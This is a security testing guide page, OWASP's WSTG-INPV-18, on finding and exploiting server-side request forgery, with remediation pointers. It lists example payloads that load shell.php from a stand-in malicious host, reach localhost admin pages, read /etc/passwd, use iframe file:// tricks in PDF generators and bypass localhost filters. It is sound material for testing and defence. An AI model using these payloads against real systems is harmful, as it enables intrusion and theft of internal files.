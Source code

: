 # Testing for Server-Side Request Forgery

|ID          |
|------------|
|WSTG-INPV-18|

## Summary

Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other backend systems that are not directly reachable by users. These backend systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:

``` http
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads.

### Load the Contents of a File

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Access a Restricted Page

```http
GET https://example.com/page?page=http://localhost/admin
```

Or:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

### Fetch a Local File

```http
GET https://example.com/page?page=file:///etc/passwd
```

### HTTP Methods Used

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [references section](#references).

### PDF Generators

In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

- Using alternative IP representation that evaluate to `127.0.0.1`:
    - Decimal notation: `2130706433`
    - Octal notation: `017700000001`
    - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to [semantic attacks](https://tools.ietf.org/html/rfc3986#section-7.6).

- Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, see the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to defeat without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, read the [Server-side Request Forgery Prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server-side Request Forgery Prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [URI Generic Syntax](https://tools.ietf.org/html/rfc3986)
